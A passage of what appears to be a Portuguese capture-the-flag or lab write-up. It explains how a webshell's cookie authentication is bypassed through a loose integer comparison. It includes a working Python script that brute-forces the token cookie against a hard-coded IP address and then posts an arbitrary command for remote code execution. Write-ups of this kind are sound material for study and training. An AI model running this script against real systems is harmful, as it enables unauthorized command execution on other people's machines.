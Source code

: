 Vamos então encontrar um número inteiro que consiga gerar TRUE na comparação e bypassar a autenticação da webshell. Podemos ver no código que existe um parâmetro POST chamado cmd que é usado quando a autenticação retorna TRUE , e esse parâmetro é o código que será executado na webshell. Pensando nisso escrevi um exploit em python para fazer um bruteforce de valores numéricos no cookie até conseguir a autenticação e por fim rodar o comando que eu quiser na máquina.

```python
import requests
import sys
cmd = sys.argv[1]
url = "http://34.219.224.183/uploads/webshell.php"
for num in range(0, 1000):
        token = num
        print("[INFO] Testing: ", token)
        cookies = {'token': str(token)}
        r = requests.get(url, cookies=cookies)
        if len(r.text) != 565:
                print("[EXPLOIT] Token:", token, "CMD:", cmd)
                payload = {'cmd': cmd}
                a = requests.post(url, data=payload, cookies=cookies)
                print(a)
```

![/assets/hacked/Untitled%2017.png](/assets/hacked/Untitled%2017.png)

Funcionou o cookie que começa com 9, mesmo ja tendo RCE,  vamos setar o cookie e ver a webshell...

Apenas setei o cookie para 9:

![/assets/hacked/Untitled%2018.png](/assets/hacked/Untitled%2018.png)
